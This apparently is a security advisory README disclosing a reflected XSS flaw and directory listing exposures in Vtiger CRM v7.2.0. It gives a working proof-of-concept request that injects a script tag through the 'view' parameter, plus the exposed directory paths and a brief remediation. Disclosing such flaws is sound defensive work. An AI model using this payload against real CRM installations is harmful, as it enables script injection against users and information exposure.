 # Vtiger-CRM-Vulnerabilities
Vtiger CRM v7.2.0 has Cross-Site Scripting (XSS) and directory listing vulnerabilities.

## Vtiger CRM Reflected XSS Vulnerability
Reflected XSS in the [Vtiger CRM v7.2.0](https://www.vtiger.com/open-source-crm/download-open-source/) can result in an attacker performing malicious actions to users who open a maliciously crafted link or third-party web page.

### PoC
To exploit vulnerability, someone could use a GET request to **'http://[server]//vtigercrm/index.php?app=&module=Campaigns&view=%3Ctest%22%3E%3Cscript%3Ealert(document.domain)%3C%2fscript%3E'** by manipulating **'view'** parameter in the request body to impact users who open a maliciously crafted link or third-party web page.


```
GET /vtigercrm/index.php?app=&module=Campaigns&view=%3Ctest%22%3E%3Cscript%3Ealert(document.domain)%3C%2fscript%3E HTTP/1.1
Host: 172.16.155.128
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:77.0) Gecko/20100101 Firefox/77.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Cookie: PHPSESSID=nc32t8env2h236vf3s6ftor3im
Upgrade-Insecure-Requests: 1
```

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_xss_01.png)

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_xss_02.png)

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_xss_03.png)

## Vtiger CRM Directory Listing Vulnerabilities

### PoC

```
http://[server]/vtigercrm/libraries/
http://[server]/vtigercrm/layouts/
```

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_directorylisting_02.png)

![alt tag](https://emreovunc.com/blog/en/vtiger_crm_directorylisting_01.png)


## Remediation
You should make sure the directory does not contain sensitive information or you may want to restrict directory listings from the web server configuration.
